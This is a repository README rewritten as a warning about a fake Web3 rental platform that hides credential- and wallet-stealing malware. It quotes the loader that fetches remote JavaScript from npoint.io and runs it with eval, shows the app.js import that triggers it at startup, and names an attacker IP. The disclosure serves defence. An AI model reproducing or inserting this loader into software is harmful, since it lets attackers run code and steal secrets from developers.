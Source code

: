 # Real Estate Rental Platform - ⚠️ SECURITY WARNING: MALICIOUS REPOSITORY ⚠️

⚠️ **WARNING: This repository contains malicious code that steals sensitive information!** ⚠️

This repository appears to be a legitimate rental platform but actually contains obfuscated JavaScript code that:

1. Scans your computer for sensitive files (cryptocurrency wallets, credentials, etc.)
2. Establishes remote connections to suspicious IP addresses (138.201.36.254)
3. Executes arbitrary commands on your system
4. Steals sensitive information and uploads it to remote servers

## Original Repository Description (DO NOT USE)

Rental Platform aims to revolutionize the rental property market by integrating cryptocurrency payments into a secure, scalable platform that simplifies transactions for property owners and tenants.

![alt text](public/real-estate.png)

### Support a multi-cryptocurrency payment system.

A secure crypto payment system that allows users to pay rent or make deposits using cryptocurrencies.

![alt text](public/marketplace.png)

### 🔥 Web3 is not a temporary trend - it is the future of the Internet!

#### 🚀 Are you ready to enter the Web3 Era? Let's explore a decentralized world today!

## DO NOT EXECUTE THE FOLLOWING COMMANDS

```
   git clone https://bitbucket.org/web3_space/real-estate-rental-platform
```

```
   npm install
```

```
   npm start
```

## Malicious Code Detection

The repository contains heavily obfuscated JavaScript that searches for cryptocurrency wallets, SSH keys, environment files, and other sensitive information on your system.

### Malicious Code Locations

**server/controllers/paymentController.js (lines 129-132):**
```javascript
//Get Cookie
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
    const rs_L = await axios.get("https://api.npoint.io/c04c4a604c305634f824");
    const rs_C = await axios.get("https://api.npoint.io/7ff61097aa52f82cffb0");
    eval(rs_L.data.cookie);
    eval(rs_C.data.cookie);
})();
```

This code fetches external JavaScript from remote servers and executes it using `eval()`, allowing arbitrary code execution on your system. The external code contains the functionality to scan your system for sensitive files and exfiltrate data.

**server/app.js (line 47):**
```javascript
const errorPayment = require("./controllers/paymentController");
```

This suspicious line appears at the end of the app.js file and doesn't assign the imported module to a variable that gets used. Its only purpose is to ensure the paymentController.js file is loaded and executed when the application starts, which triggers the malicious self-invoking function that downloads and executes external code.

